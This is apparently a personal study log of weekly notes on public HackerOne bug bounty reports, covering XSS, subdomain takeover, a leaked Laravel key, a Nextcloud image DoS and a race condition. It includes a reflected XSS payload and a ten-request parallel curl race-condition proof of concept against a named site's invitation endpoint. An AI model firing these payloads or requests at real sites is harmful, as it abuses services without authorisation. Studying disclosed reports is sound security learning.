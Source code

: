 # 😛 03

## Week 1

### XSS

I am not sure there are some valuable vulnerabilities in this week .

{% embed url="https://hackerone.com/reports/1400197" %}

This is a common reflected XSS in the mail.ru, using

```
"><sCrIpT>alert(1)</sCrIpT>

```

But I am weird how they can find this url.



### subdomain token

The questions of subdomain takeover are also a very common vulnerabilities.

This is a bug report about mail.ru, which has  a unclaimed subdomain that can be takeovered from \`tilda.cc\`&#x20;

{% embed url="https://hackerone.com/reports/1045644" %}



Ruby on Rails has a subdomain using unclaimed Github Page.

{% embed url="https://hackerone.com/reports/1429148" %}

## Week 2 （3.7-3.13）

### 1.

{% embed url="https://hackerone.com/reports/1424094" %}
$2000
{% endembed %}

This is a very serious vulability in GlassDoor.

Actually, this is a bypass for this report:

{% embed url="https://hackerone.com/reports/1343086" %}

And there has a report in detail:

{% embed url="https://infosecwriteups.com/how-i-made-16-500-hacking-cdn-caching-servers-part-2-4995ece4c6e6" %}

\---

### 2.&#x20;

{% embed url="https://hackerone.com/reports/1049402" %}

This is a PHP website written by Laraval, and leaking the APP\_KEY, in the [https://radio.mtn.bj/info\
](https://radio.mtn.bj/info)

\---

### 3.

{% embed url="https://hackerone.com/reports/1337178" %}

This is a very interesting open arbitrary URL vul.

When you share your location, the package contains a objectId parameter, you can change it to any URL. And it would be trigget when you click the share place.

\---

### 4.

{% embed url="https://hackerone.com/reports/1066203" %}

There is no detail, but it must be fun.



\---

### 5.&#x20;

{% embed url="https://hackerone.com/reports/1261225" %}

This is a DoS in the nextcloud.  This DoS is targeted by uploading  a image. The PHP GD would be DoS, when people upload lots of such files which will cause the server to allocate too much memory/CPU.&#x20;

(It's basically an "empty" jpeg file with header information that don't match the actual image.)

\---



### 6.

{% embed url="https://hackerone.com/reports/1460373" %}

VV

Very funny, if you would waste some resources like the invite number, try to race condition

![](<../../.gitbook/assets/image (2).png>)

curl 'https://fetlife.com/users/invitation'

&#x20;\-H 'User-Agent: cur1'&#x20;

\-H 'Cookie: \_fl\_sessionid={session\_id}'&#x20;

\--data 'authenticity\_token={authenticity\_token}\&user%5Bemail%5D={email\_address\_1}' & curl 'https://fetlife.com/users/invitation' -H 'User-Agent: cur1' -H 'Cookie: \_fl\_sessionid={session\_id}' --data 'authenticity\_token={authenticity\_token}\&user%5Bemail%5D={email\_address\_2}' & curl 'https://fetlife.com/users/invitation' -H 'User-Agent: cur1' -H 'Cookie: \_fl\_sessionid={session\_id}' --data 'authenticity\_token={authenticity\_token}\&user%5Bemail%5D={email\_address\_3}' & curl 'https://fetlife.com/users/invitation' -H 'User-Agent: cur1' -H 'Cookie: \_fl\_sessionid={session\_id}' --data 'authenticity\_token={authenticity\_token}\&user%5Bemail%5D={email\_address\_4}' & curl 'https://fetlife.com/users/invitation' -H 'User-Agent: cur1' -H 'Cookie: \_fl\_sessionid={session\_id}' --data 'authenticity\_token={authenticity\_token}\&user%5Bemail%5D={email\_address\_5}' & curl 'https://fetlife.com/users/invitation' -H 'User-Agent: cur1' -H 'Cookie: \_fl\_sessionid={session\_id}' --data 'authenticity\_token={authenticity\_token}\&user%5Bemail%5D={email\_address\_6}' & curl 'https://fetlife.com/users/invitation' -H 'User-Agent: cur1' -H 'Cookie: \_fl\_sessionid={session\_id}' --data 'authenticity\_token={authenticity\_token}\&user%5Bemail%5D={email\_address\_7}' & curl 'https://fetlife.com/users/invitation' -H 'User-Agent: cur1' -H 'Cookie: \_fl\_sessionid={session\_id}' --data 'authenticity\_token={authenticity\_token}\&user%5Bemail%5D={email\_address\_8}' & curl 'https://fetlife.com/users/invitation' -H 'User-Agent: cur1' -H 'Cookie: \_fl\_sessionid={session\_id}' --data 'authenticity\_token={authenticity\_token}\&user%5Bemail%5D={email\_address\_9}' & curl 'https://fetlife.com/users/invitation' -H 'User-Agent: cur1' -H 'Cookie: \_fl\_sessionid={session\_id}' --data 'authenticity\_token={authenticity\_token}\&user%5Bemail%5D={email\_address\_10}'





\---

### 7.

{% embed url="https://hackerone.com/reports/1463638" %}

RXSS



\---&#x20;

### 8

{% embed url="https://hackerone.com/reports/1504410" %}



### 9

{% embed url="https://hackerone.com/reports/1504410" %}
$6,000
{% endembed %}

the title containing the XSS payload.





## Week 2 （3.14-3.20）



#### 1.&#x20;

{% embed url="https://hackerone.com/reports/1492447" %}



